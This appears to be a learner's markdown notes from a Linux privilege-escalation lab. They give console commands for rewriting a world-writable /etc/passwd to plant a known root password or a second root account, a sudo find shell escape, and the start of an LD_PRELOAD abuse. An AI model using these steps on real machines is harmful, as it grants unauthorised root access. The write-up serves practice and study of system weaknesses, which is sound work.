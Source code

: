 ```console
user@debian:~$ su root
Password: 
root@debian:/home/user# whoami 
root
```

# Weak File Permissions - Writable /etc/passwd
```console
user@debian:~$ ls -l /etc/passwd
-rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd
user@debian:~$ openssl passwd gu2washere
Warning: truncating password to 8 characters
p7WxO7eoMHzVY
user@debian:~$ nano /etc/passwd # replace hash between 1st colon and 2 colon (replacing the "x") with the genarated password
user@debian:~$ su root
Password: 
root@debian:/home/user# whoami
root
```

another way to do it is create a new root user in ```/etc/passwd``` by copy the root row and append it to the buttom of the file. Change the password (replace "x" or put the genarated password between 1st and 2nd colon) and change the user name. the run ```su newroot``` to get ROOT

# Sudo - Shell Escape Sequences 
holly damn, this shit is super cool. bookmark it guys https://gtfobins.github.io/ !!
```console
user@debian:~$ sudo find . -exec /bin/sh \; -quit
sh-4.1# whoami
root
``` 

# task 7: Sudo - Environment Variables
this task was something new for me. it was hard to understand first but after reading through the task discription like 3 time then I got it.
```console
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD,
    env_keep+=LD_LIBRARY_PATH
```

LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.



Create a shared object using the code call preload.c which I included [here](preload.c)
